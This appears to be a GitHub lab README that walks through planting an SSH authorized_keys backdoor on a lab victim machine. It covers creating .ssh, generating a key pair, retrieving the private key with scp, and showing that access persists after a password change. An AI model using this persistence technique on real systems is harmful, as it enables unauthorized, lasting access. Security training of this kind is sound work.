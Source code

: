 # Linux Backdoors

This lab setup is meant to simulate a security professional setting up a backdoor in order to maintain access to the compromised system even after the user changed the passwrod.


## Prerequisites

To set up the lab first log in on the victim machine and execute the <code>setup.sh</code> script as sudo using the following command executee in the terminal
```sh
sudo ./setup.sh
```
The purpose of the script is to create a new user and set a default passwrod. To reset the lab and start again the <code>reset.sh</code> script can be used to remove the user, after which the <code>setup.sh</code> script can be executed again.

Victim IP: **192.168.212.151**
Host IP: **192.168.1.132**

<br/>

## Instructions
The lab scenario starts on the attacker machine and all offensive techniques will be carried out from this machine.

1. Log into the victim machine with SSH using the command below. When prompted for password use: **l3tmein**
```sh
ssh web@192.168.212.151
```

2. Now that you managed access the victim machine it's time to set up the ssh backdoor via authorized keys. In the users home directory create the *.ssh* directory using the following command. Note that the . (dot) in front of the directory name means that this is a hidden directory.
```sh
mkdir .ssh
```

3. Next create a file called *authorized_keys* without any extensionu sing the touch command. This file is used to store the public SSH keys coresponding to the users who can access this server using their respective private keys.
```sh
touch .ssh/authorized_keys
```

4. One important aspect that should not be ignored is the restrictive permissions that must be seet for the *.ssh* and *authorized_keys*. This can be done with the <code>chmod</code> command.
```sh
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
```

5. 

```sh
# Generare ssh key pair
ssh-keygen -b 4096 -t rsa
```

6. 
```sh
# Copy the public key in the authorized keys file
cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```


```sh



# retrieve the private key from the server using SCP to the local folder
scp web@192.168.212.151:.ssh/id_rsa .

# attempt a connection with the following command
ssh -i id_rsa web@192.168.212.151

# change the password to: web123
passwd web

# check that you cannot log in
``` 

